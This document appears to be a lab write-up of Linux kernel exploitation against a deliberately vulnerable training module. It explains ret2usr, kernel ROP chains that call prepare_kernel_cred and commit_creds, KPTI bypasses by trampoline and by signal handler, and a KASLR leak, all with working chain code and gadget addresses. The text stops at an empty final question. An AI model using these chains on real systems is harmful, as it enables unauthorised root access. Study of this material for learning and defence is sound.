




## Table of Contents

- [Overview](#overview)
    - [prepare_kernel_cred and commit_creds](#prepare_kernel_cred-and-commit_creds)
    - [Return to userspace](#return-to-userspace)
- [Exploit: ret2usr](#exploit-ret2usr-no-smep-no-smap-no-kpti-no-kaslr)
- [Exploit: kROP](#exploit-kROP-bypass-smep-smap-with-no-kpti-no-kaslr)
- [Exploit: KPTI](#exploit-kpti-with-smeps-smap-and-no-aslr)
    - [Bypass KPTI with Trampoline](#bypass-kpti-with-trampoline)
    - [Bypass KPTI with Signal Handler](#bypass-kpti-with-signal-handler)
- [Avoiding KASLR](#avoiding-kaslr)
- [Bonus](#bonus)
- [References](#references)

## Overview

### prepare_kernel_cred and commit_creds

All the processes in Linux have a set of credentials that define their permissions. The `prepare_kernel_cred` function is used to prepare a new set of credentials, while `commit_creds` applies those credentials to the current process. This is handled on the heap within a structure known as the `cred` structure. And each process (task) is managed by a structure called a `task_struct` structure, which contains a pointer to a `cred` structure.

```c
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
	kernel_cap_t	cap_effective;	/* caps we can actually use */
	kernel_cap_t	cap_bset;	/* capability bounding set */
	kernel_cap_t	cap_ambient;	/* Ambient capability set */
#ifdef CONFIG_KEYS
	unsigned char	jit_keyring;	/* default keyring to attach requested
					 * keys to */
	struct key	*session_keyring; /* keyring inherited over fork */
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct ucounts *ucounts;
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	/* RCU deletion */
	union {
		int non_rcu;			/* Can we skip RCU deletion? */
		struct rcu_head	rcu;		/* RCU deletion hook */
	};
} __randomize_layout;


struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
    ...
}
```

The `cred` structure is created at the time of process creation and is stored in the `task_struct` of the process. The `real_cred` pointer points to the original credentials of the process, while the `cred` pointer points to the effective credentials that are currently in use. So in the case of Privilege Escalation, we just need to focus on process credentials and how to manipulate them. So our goal is to change the `cred` and `real_cread` pointers in the `task_struct` of the process to `root` credentials ([init_cred](https://elixir.bootlin.com/linux/v5.14.9/source/kernel/cred.c#L41)).

To do this, we will use the `prepare_kernel_cred` function to prepare a new set of credentials and then use the `commit_creds` function to apply those credentials to the current process. The `prepare_kernel_cred` function takes a pointer to a `task_struct` as an argument, which is usually the current process. If we pass `NULL`, it will prepare the credentials for the `init` process, which has root privileges.

```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

	new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
	if (!new)
		return NULL;

	kdebug("prepare_kernel_cred() alloc %p", new);

	if (daemon)
		old = get_task_cred(daemon);
	else
		old = get_cred(&init_cred);

    ...

    return new;
}
```

And pass the prepared credentials to the [commit_creds](https://elixir.bootlin.com/linux/v5.14.9/source/kernel/cred.c#L449) function, which will apply them to the current process:

```c
void commit_creds(struct cred *new)
```

or

```c
void commit_creds(prepare_kernel_cred(NULL))
```

**PATCHED: But sadly, in Kernel 6.2, the [prepare_kernel_cred](https://elixir.bootlin.com/linux/v6.2/source/kernel/cred.c#L712) function has been modified to prevent the use of `NULL` as an argument. However, the `init_cred` is still there, so we can easily pass the address of `init_cred` to `commit_cred` without using `prepare_kernel_cred`**

### Return to userspace

After we have successfully changed the credentials of the current process to `root`, we need to return to user mode. This is important because if not return to user safely, the kernel will panic and stop our exploit before using root privileges to do anything.

Transitioning between user space and kernel space involves switching CPU privilege modes. Going from user space to kernel space is typically done via a syscall or an interrupt like `int 0x80`. When userspace trigger syscall it will swap from userspace to kernelspace through the `entry_SYSCALL`. Let's write a simple program that use a syscall to switch from user space to kernel space:

```c
// clang example.c -o example -static
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main()
{
    int fd = open("/dev/urandom", O_RDONLY);
    close(fd);
    return 0;
}
```

```sh
#!/bin/sh
clang example.c -o example -static
mv   example root
cd   root; find . -print0 | cpio -o --null --format=newc > ../debugfs.cpio
cd   .. /

qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage  \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on nokaslr" \
    -no-reboot \
    -cpu  qemu64 \
    -smp 1 \
    -monitor /dev/null \
    -initrd debugfs.cpio \
    -net nic,model=virtio \
    -net user \
    -gdb tcp::12345
```

Set a breapoint on `entry_SYSCALL_64` and `open` syscall:


Continue execution and you will see the CPU privilege mode has been switched to kernel mode and stop at our breakpoint:



First we still in the user space, so the `RSP` is pointing to the user stack, the `swapgs` instruction is used to switch the GS segment from the user GS to the kernel GS. So after this instruction, the `RSP` will point to the kernel stack. The `entry_SYSCALL_64` function will then save the user space registers and switch to kernel mode before going to `<do_syscall_64>` function.


After implementing that syscall, the kernel will try to return to user space. There are two main instructions used for this purpose: `sysretq` and `iretq`. The `sysretq` instruction is used to return from a syscall, while the `iretq` instruction is used to return from an interrupt or exception. In the case of syscalls, the kernel will use `sysretq` to switch back to user mode and restore the user space registers. And there are also 2 functions that are used to return to user space: `syscall_return_via_sysret+` and `swapgs_restore_regs_and_return_to_usermode`. In this case, the kernel will use `syscall_return_via_sysret`.


That's how the kernel switches from user space to kernel space and back to user space. But let's take a look at the disassembly of `syscall_return_via_sysret` and `swapgs_restore_regs_and_return_to_usermode`.

```x86asm
swapgs_restore_regs_and_return_to_usermode:
   0xffffffff81800e10 <+0>:     pop    r15
   0xffffffff81800e12 <+2>:     pop    r14
   0xffffffff81800e14 <+4>:     pop    r13
   0xffffffff81800e16 <+6>:     pop    r12
   0xffffffff81800e18 <+8>:     pop    rbp
   0xffffffff81800e19 <+9>:     pop    rbx
   0xffffffff81800e1a <+10>:    pop    r11
   0xffffffff81800e1c <+12>:    pop    r10
   0xffffffff81800e1e <+14>:    pop    r9
   0xffffffff81800e20 <+16>:    pop    r8
   0xffffffff81800e22 <+18>:    pop    rax
   0xffffffff81800e23 <+19>:    pop    rcx
   0xffffffff81800e24 <+20>:    pop    rdx
   0xffffffff81800e25 <+21>:    pop    rsi
   0xffffffff81800e26 <+22>:    mov    rdi,rsp
   0xffffffff81800e29 <+25>:    mov    rsp,QWORD PTR gs:0x6004
   0xffffffff81800e32 <+34>:    push   QWORD PTR [rdi+0x30]
   0xffffffff81800e35 <+37>:    push   QWORD PTR [rdi+0x28]
   0xffffffff81800e38 <+40>:    push   QWORD PTR [rdi+0x20]
   0xffffffff81800e3b <+43>:    push   QWORD PTR [rdi+0x18]
   0xffffffff81800e3e <+46>:    push   QWORD PTR [rdi+0x10]
   0xffffffff81800e41 <+49>:    push   QWORD PTR [rdi]
   0xffffffff81800e43 <+51>:    push   rax
   0xffffffff81800e44 <+52>:    xchg   ax,ax
   0xffffffff81800e46 <+54>:    mov    rdi,cr3
   0xffffffff81800e49 <+57>:    jmp    0xffffffff81800e7f <swapgs_restore_regs_and_return_to_usermode+111>
   0xffffffff81800e4b <+59>:    mov    rax,rdi
   0xffffffff81800e4e <+62>:    and    rdi,0x7ff
   0xffffffff81800e55 <+69>:    bt     QWORD PTR gs:0x1f316,rdi
   0xffffffff81800e5f <+79>:    jae    0xffffffff81800e70 <swapgs_restore_regs_and_return_to_usermode+96>
   0xffffffff81800e61 <+81>:    btr    QWORD PTR gs:0x1f316,rdi
   0xffffffff81800e6b <+91>:    mov    rdi,rax
   0xffffffff81800e6e <+94>:    jmp    0xffffffff81800e78 <swapgs_restore_regs_and_return_to_usermode+104>
   0xffffffff81800e70 <+96>:    mov    rdi,rax
   0xffffffff81800e73 <+99>:    bts    rdi,0x3f
   0xffffffff81800e78 <+104>:   or     rdi,0x800
   0xffffffff81800e7f <+111>:   or     rdi,0x1000
   0xffffffff81800e86 <+118>:   mov    cr3,rdi
   0xffffffff81800e89 <+121>:   pop    rax
   0xffffffff81800e8a <+122>:   pop    rdi
   0xffffffff81800e8b <+123>:   swapgs
   0xffffffff81800e8e <+126>:   jmp    0xffffffff81800eb0 <native_iret>

syscall_return_via_sysret:
   0xffffffff818000e1 <+0>:     pop    r15
   0xffffffff818000e3 <+2>:     pop    r14
   0xffffffff818000e5 <+4>:     pop    r13
   0xffffffff818000e7 <+6>:     pop    r12
   0xffffffff818000e9 <+8>:     pop    rbp
   0xffffffff818000ea <+9>:     pop    rbx
   0xffffffff818000eb <+10>:    pop    rsi
   0xffffffff818000ec <+11>:    pop    r10
   0xffffffff818000ee <+13>:    pop    r9
   0xffffffff818000f0 <+15>:    pop    r8
   0xffffffff818000f2 <+17>:    pop    rax
   0xffffffff818000f3 <+18>:    pop    rsi
   0xffffffff818000f4 <+19>:    pop    rdx
   0xffffffff818000f5 <+20>:    pop    rsi
   0xffffffff818000f6 <+21>:    mov    rdi,rsp
   0xffffffff818000f9 <+24>:    mov    rsp,QWORD PTR gs:0x6004
   0xffffffff81800102 <+33>:    push   QWORD PTR [rdi+0x28]
   0xffffffff81800105 <+36>:    push   QWORD PTR [rdi]
   0xffffffff81800107 <+38>:    push   rax
   0xffffffff81800108 <+39>:    xchg   ax,ax
   0xffffffff8180010a <+41>:    mov    rdi,cr3
   0xffffffff8180010d <+44>:    jmp    0xffffffff81800143 <syscall_return_via_sysret+98>
   0xffffffff8180010f <+46>:    mov    rax,rdi
   0xffffffff81800112 <+49>:    and    rdi,0x7ff
   0xffffffff81800119 <+56>:    bt     QWORD PTR gs:0x1f316,rdi
   0xffffffff81800123 <+66>:    jae    0xffffffff81800134 <syscall_return_via_sysret+83>
   0xffffffff81800125 <+68>:    btr    QWORD PTR gs:0x1f316,rdi
   0xffffffff8180012f <+78>:    mov    rdi,rax
   0xffffffff81800132 <+81>:    jmp    0xffffffff8180013c <syscall_return_via_sysret+91>
   0xffffffff81800134 <+83>:    mov    rdi,rax
   0xffffffff81800137 <+86>:    bts    rdi,0x3f
   0xffffffff8180013c <+91>:    or     rdi,0x800
   0xffffffff81800143 <+98>:    or     rdi,0x1000
   0xffffffff8180014a <+105>:   mov    cr3,rdi
   0xffffffff8180014d <+108>:   pop    rax
   0xffffffff8180014e <+109>:   pop    rdi
   0xffffffff8180014f <+110>:   pop    rsp
   0xffffffff81800150 <+111>:   swapgs
   0xffffffff81800153 <+114>:   sysretq
```

Both of them are similar in some aspects. However, `swapgs_restore_regs_and_return_to_usermode` appears relatively straightforward to implement. In general, it restores the user-space registers and switches the CPU back to user mode (ring 3). Before transitioning to user mode, it also performs a bitwise OR operation on the CR3 register with `0x1000`. This is important because the CR3 register is used to manage the page tables in the x86 architecture, and this operation ensures that the CPU is correctly set up to access user-space memory. The way `swapgs_restore_regs_and_return_to_usermode` restore user-space registers is just push the value of `rip`, `cs`, `rflags`, `rsp`, and `ss` to the stack, and then the `iretq` instruction will pop that value from the stack and restore the user-space registers. These value must be in the correct order:

```x86asm
rsp ---> rip
         cs
         rflags
         rsp
         ss
```

For more information about the `iretq` instruction, you can visit this [link](https://www.felixcloutier.com/x86/iret:iretd:iretq). In this link, you can see the pseudo code for the `iretq` instruction. In the most case, it will return to user mode by using mode `IA-32e-MODE`

```x86asm
IA-32e-MODE:
    IF NT = 1
            THEN #GP(0);
    ELSE IF OperandSize = 32
            THEN
                        EIP := Pop();
                        CS := Pop();
                        tempEFLAGS := Pop();
            ELSE IF OperandSize = 16
                        THEN
                                EIP := Pop(); (* 16-bit pop; clear upper bits *)
                                CS := Pop(); (* 16-bit pop *)
                                tempEFLAGS := Pop(); (* 16-bit pop; clear upper bits *)
                        FI;
            ELSE (* OperandSize = 64 *)
                        THEN
                                    RIP := Pop();
                                    CS := Pop(); (* 64-bit pop, high-order 48 bits discarded *)
                                    tempRFLAGS := Pop();
    FI;
    IF CS.RPL > CPL
            THEN GOTO RETURN-TO-OUTER-PRIVILEGE-LEVEL;
            ELSE
                        IF instruction began in 64-Bit Mode
                                THEN
                                    IF OperandSize = 32
                                        THEN
                                            ESP := Pop();
                                            SS := Pop(); (* 32-bit pop, high-order 16 bits discarded *)
                                    ELSE IF OperandSize = 16
                                        THEN
                                            ESP := Pop(); (* 16-bit pop; clear upper bits *)
                                            SS := Pop(); (* 16-bit pop *)
                                        ELSE (* OperandSize = 64 *)
                                            RSP := Pop();
                                            SS := Pop(); (* 64-bit pop, high-order 48 bits discarded *)
                                    FI;
                        FI;
                        GOTO RETURN-TO-SAME-PRIVILEGE-LEVEL; FI;
END;
```

In other hand the `sysretq` instruction returns from an OS system-call handler to user code at privilege level 3. It does so by loading `RIP` from `RCX` and loading `RFLAGS` from `R11`. With a 64-bit operand size, SYSRET remains in 64-bit mode; otherwise, it enters compatibility mode and only the low 32 bits of the registers are loaded. Here is the pseudo code for that

```x86asm
IF (CS.L ≠ 1 ) or (IA32_EFER.LMA ≠ 1) or (IA32_EFER.SCE ≠ 1)
(* Not in 64-Bit Mode or SYSCALL/SYSRET not enabled in IA32_EFER *)
    THEN #UD; FI;
IF (CPL ≠ 0) THEN #GP(0); FI;
IF (operand size is 64-bit)
    THEN (* Return to 64-Bit Mode *)
        IF (RCX is not canonical) THEN #GP(0);
        RIP := RCX;
    ELSE (* Return to Compatibility Mode *)
        RIP := ECX;
FI;
RFLAGS := (R11 & 3C7FD7H) | 2; (*
                Clear RF, VM, reserved bits; set bit 1 *)
```

## Exploit: ret2usr (no SMEP, no SMAP, no KPTI, no KASLR)

So let's back to our problem, in Holstein v1, the module have the overflow bug in `module_read` and `module_write` functions. So this make us easy to overwrite and control the saved RIP. And because no SMEP, no SMAP, no KPTI, and no KASLR, we can easily access/execute the userspace code from kernel space. You can see my exploit [here](./ret2usr/exploit.c). In the exploit, you can see that I have used the `prepare_kernel_cred` and `commit_creds` functions to change the credentials of the current process to `root`. And then call the `restore_state` function to return to user mode.


## Exploit: kROP (bypass SMEP, SMAP with no KPTI, no KASLR)

When SMEP and SMAP are enabled, the kernel will prevent the execution of user space code from kernel space. This means that we cannot directly call the user space functions from the kernel space. But who can stop us from using ROP to gain root privileges? The idea is simple, you will use ROP to setup argument and call the `prepare_kernel_cred` then `commit_creds` functions to change the credentials of the current process to `root`. And then set up the stack to return to user mode using `iretq` instruction. So first you will need to find useful gadgets (you can use any ROP gadget finder tool you like to find these gadgets).

```c
    uint64_t pop_rdi = 0xffffffff812ef4c0;
    uint64_t pop_rcx = 0xffffffff812ea083;
    uint64_t mov_rdi_rax = 0xffffffff8160c96b;
    uint64_t swapgs = 0xffffffff8160bfac;
    uint64_t iretq = 0xffffffff8102f032; // objdump -S -M intel vmlinux | grep iretq
```

Combine them together to create a ROP chain that will call `prepare_kernel_cred` and `commit_creds` functions, and then return to user mode using `iretq` instruction. The ROP chain will look like this:

```c
    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
    ROP[idx++] = swapgs; // Change Kernel segment GS -> User segment GS
    ROP[idx++] = iretq;
    ROP[idx++] = user_rip;
    ROP[idx++] = user_cs;
    ROP[idx++] = user_rflags;
    ROP[idx++] = user_rsp;
    ROP[idx++] = user_ss;
```

Here is my full [exploit code](./kROP/exploit.c). However, you can make you ROP chain more short by passing `init_cred` to `commit_creds` instead of using `prepare_kernel_cred` (note that not all linux version build with `init_cred` symbol). So the ROP chain will look like this:

```c
    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = init_cred; // Pass init_cred to commit_creds
    ROP[idx++] = commit_creds;
    ROP[idx++] = swapgs; // Change Kernel segment GS -> User segment GS
    ROP[idx++] = iretq;
    ROP[idx++] = user_rip;
    ROP[idx++] = user_cs;
    ROP[idx++] = user_rflags;
    ROP[idx++] = user_rsp;
    ROP[idx++] = user_ss;
```

## Exploit: Bypass KPTI (with SMEP, SMAP and no ASLR)

Kernel page-table isolation (KPTI or PTI, previously called KAISER) is a Linux kernel feature that mitigates the Meltdown security vulnerability (affecting mainly Intel’s x86 CPUs) and improves kernel hardening against attempts to bypass kernel address space layout randomization (KASLR). It works by better isolating user space and kernel space memory.

KPTI fixes these leaks by separating user-space and kernel-space page tables entirely. One set of page tables includes both kernel-space and user-space addresses same as before, but it is only used when the system is running in kernel mode. The second set of page tables for use in user mode contains a copy of user-space and a minimal set of kernel-space mappings that provides the information needed to enter or exit system calls, interrupts and exceptions.

So when we run our ROP exploit above, it will `Segment fault`. This is because even though we have return to the usermode, the page table it is using is still the Kernel's, with all the pages in userland marked as non-executable. To bypass KPTI, we can use some methods:

- Bypass KPTI with Trampoline
- Bypass KPTI with Signal Handler

### Bypass KPTI with Trampoline

The idea behind this technique is use the kernel's existing method of transitioning between userspace and kernelspace page tables in our exploit to transition gracefully to our dROP_shell function. The function `swapgs_restore_regs_and_return_to_usermode` is used to move between these two pages and with an appROPriate leak we can reuse this function in our ROP chain. You can find the source code [here](https://github.com/torvalds/linux/blob/7587a4a5a4f66293e13358285bcbc90cc9bddb31/arch/x86/entry/entry_64.S#L575)

```x86asm
POP_REGS pop_rdi=0

/*
    * The stack is now user RDI, orig_ax, RIP, CS, EFLAGS, RSP, SS.
    * Save old stack pointer and switch to trampoline stack.
    */
movq	%rsp, %rdi
movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
UNWIND_HINT_EMPTY

/* Copy the IRET frame to the trampoline stack. */
pushq	6*8(%rdi)	/* SS */
pushq	5*8(%rdi)	/* RSP */
pushq	4*8(%rdi)	/* EFLAGS */
pushq	3*8(%rdi)	/* CS */
pushq	2*8(%rdi)	/* RIP */

/* Push user RDI on the trampoline stack. */
pushq	(%rdi)

/*
    * We are on the trampoline stack.  All regs except RDI are live.
    * We can do future final exit work right here.
    */
STACKLEAK_ERASE_NOCLOBBER

SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi

/* Restore RDI. */
popq	%rdi
SWAPGS
INTERRUPT_RETURN
```

So we can use the piece of code in this function, to return to user mode. Let's see it in the disassembly view:

```sh
/ # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81800e10 T swapgs_restore_regs_and_return_to_usermode
```


The key point is that the stack was pre-adjusted to point to the correct location. The subsequent pushes are copying the user-space register values — originally stored on the kernel stack and meant for iretq — to a memory area that remains accessible even after the CR3 switch triggered by KPTI. So our complete KPTI Trampoline chain is started at `0xffffffff81800e26`

```c
    uint64_t kpti_trampoline_chain = 0xffffffff81800e26;
    uint64_t pop_rdi = 0xffffffff812ef4c0;
    uint64_t pop_rcx = 0xffffffff812ea083;
    uint64_t mov_rdi_rax = 0xffffffff8160c96b;

    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
    ROP[idx++] = kpti_trampoline_chain;
    ROP[idx++] = 0;           // [rdi+0x0]
    ROP[idx++] = 0;           // [rdi+0x8]
    ROP[idx++] = user_rip;    // [rdi+0x10]
    ROP[idx++] = user_cs;     // [rdi+0x18]
    ROP[idx++] = user_rflags; // [rdi+0x20]
    ROP[idx++] = user_rsp;    // [rdi+0x28]
    ROP[idx++] = user_ss;     // [rdi+0x30]
```

Here is my full [exploit code](./kpti/exploit_kpti_trampoline.c) for this technique.

### Bypass KPTI with Signal Handler

So let's talk a little bit about kernel signal. Kernel signals are software interrupts that are delivered to processes. These signals are triggered by various events like user input (pressing CTRL+C), hardware exceptions (memory saturation, divide by 0), and software events (timeouts). When a signal is generated, the kernel will interrupt the normal flow of execution of a particular process and handle the signal according to the signal disposition. There are three types of signal dispositions:

- **Ignore Signal:** The process will ignore the signal and continue executing as if nothing happened.
- **Catch Signal:** The process will execute a user-defined signal handler function to handle the signal.
- **Terminate Signal:** The process will terminate and return an exit code to the kernel (e.g SIGSEGV, SIGKILL).

And there are different types of signals, according to this [article](https://blog.yarsalabs.com/understanding-kernel-signals/) we have:

- **SIGHUP (Signal Hang Up):** The signal SIGHUP is sent when a controlling terminal or process is terminated. It's often used for restarting/reloading configuration files for long-running processes.
- **SIGINT (Signal Interrupt):** The signal SIGINT is sent when a user process CTRL+C to interrupt running processes.
- **SIGQUIT (Signal Quit):** The signal SIGQUIT is sent when a user presses CTRL+\ and is used to terminate a process and provide a core dump for debugging purposes.
- **SIGKILL (Signal Kill):** This is the signal for Hard Kill, a process that can be forcibly terminated by using this signal. It can neither be caught nor ignored.
- **SIGTERM (Signal Terminate):** This signal is sent to request a process to terminate itself gracefully. It's recommended to always use SIGTERM before resorting to SIGKILL. SIGTERM allows a process to close itself and handle temp files, etc, that it has created, SIGKILL will kill the process without giving it time to clean up.
- **SIGSEGV (Signal Segmentation Violation):** This signal is raised when a process tries to access a memory location that is forbidden for access. It indicates a memory segmentation fault.
- **SIGCHLD (Signal Child):** This signal is sent to a parent process when one of its child processes terminates or stops.
- **SIGALRM (Signal Alarm):** The Signal SIGALRM can schedule timers to execute certain functions after a specified time interval.
- **SIGTRAP (Signal Trap):** The Signal SIGTRAP can be used to Trap running processes. It's useful for debugging a fault process.
- **SIGSTOP (Signal Stop):** The Signal SIGSTOP can be used to Stop running processes. It's useful for debugging a fault process.

You can read [here](https://www.man7.org/linux/man-pages/man7/signal.7.html) for more information about signals. So how can we use signals to bypass KPTI? We all know that our exploit in [#Exploit: kROP](#exploit-krop-bypass-smep-smap-with-no-kpti-no-kaslr) will cause a SIGSEGV when we try to execute it in KPTI enabled kernel. And note that the segmentation fault (SIGSEGV) is just a userland thing, not from kernel. So what can stop us from registering a signal handler for SIGSEGV and will call `get_shell()` function when it is triggered?

```c
#include <signal.h>

struct sigaction sigact;
void register_sigsegv()
{
    logInfo("Registering SIGSEGV handler");
    sigact.sa_handler = get_shell;
    sigemptyset(&sigact.sa_mask);
    sigact.sa_flags = 0;
    sigaction(SIGSEGV, &sigact, (struct sigaction *)NULL);
}
```

And here is my full [exploit](./kpti/exploit_signal_handler.c) code for this technique.

## Avoiding KASLR

So in the case the kASLR is enabled, we first need to find a way to leak it. The kernel has 1 GB of address space from `0xffffffff80000000 to 0xffffffffc0000000`. Therefore, even if KASLR is enabled, only 0x3f0 or so base addresses will be generated from 0x810 to 0xc00. However, the overflow bug also in `module_read` function. So we can use that to leak the kernel address that available after the save RIP

```c
    char buf[0x500];
    memset(buf, 'A', 0x480);
    read(fd, buf, 0x410);
    uint64_t leaked_address = *(uint64_t *)&buf[0x408];
    uint64_t kbase = leaked_address - 0x13d33c; // 0xffffffff8113d33c-0xffffffff81000000 = 0x13d33c
```

Everything is the same as previous exploit, but we need to `kbase + offset` to get the real address of the functions and gadgets we need for the ROP chain. So here is the full [exploit code](./kaslr/exploit.c).

## Bonus

### Question 1

```
Is it possible to use only the stack overflow vulnerability of practice LK01, and to use the following combinations of security mechanisms to escalate privileges using only ret2user without ROP? Write exploit if possible, and explain why if not.
(1) SMAP disabled / SMEP disabled / KPTI enabled
(2) SMAP enabled / SMEP disabled / KPTI disabled
```

(1) - No, it is not possible to escalate privileges using only ret2user without ROP in this case. The reason is that when KPTI is enabled, the kernel will switch to a different page table so it marks the userspace pages as non-accessible. This means that even if we try to overwrite the saved RIP to point to a userspace function, the kernel will not allow us to execute it because it can't access the userspace memory. So we cannot execute the userspace code from kernel space.

(2) - No, same as above, the userspace code will be marked as non-accessible by SMAP, this due to non-executable

### Question 2

```
As seen in the Security Mechanism section, SMEP is controlled by the 21st bit of the CR4 register. Can I disable SMEP by setting the 21st bit of the CR4 register to 0 with kROP and escalate privileges using ret2user? Write exploit if possible, and explain why if not.
```

So to turn off SMEP, we can use the function name `native_write_cr4`

```c
static inline void native_write_cr4(unsigned long val)
{
	asm volatile("mov %0,%%cr4": : "r" (val), "m" (__force_order));
}
```

This function will write the value of `val` to the CR4 register. So we can use ROP to call this function and pass the new value of CR4 register to it. For examble this is the value of CR4 register when SMEP is disabled:

```gdb
pwndbg> i r cr4
cr4            0x6f0               [ OSXMMEXCPT OSFXSR PGE MCE PAE PSE ]
```

And this is the value of CR4 register when SMEP is enabled:

```gdb
pwndbg> i r cr4
cr4            0x1006f0            [ SMEP OSXMMEXCPT OSFXSR PGE MCE PAE PSE ]
```

So we see that the value `0x100000` is the value of the 20th bit of the CR4 register, which is the SMEP bit. So we can use ROP to call `native_write_cr4` and pass the value `0x6f0` to it to disable SMEP. The ROP chain will look like this:

```c
    rop[idx++] = pop_rdi; // return address
    rop[idx++] = 0;
    rop[idx++] = native_write_cr4; // Call native_write_cr4
    rop[idx++] = (unsigned long)&escalate_privilege; // Set rcx to 0 to avoid
```

However, in the [high version kernel](https://elixir.bootlin.com/linux/v5.15.187/source/arch/x86/kernel/cpu/common.c#L388-L405), the 20th and 21st bits of CR4 are pinned on boot, and will immediately be set again after being cleared, so they can never be overwritten this way anymore 🥲

### Question 3

```
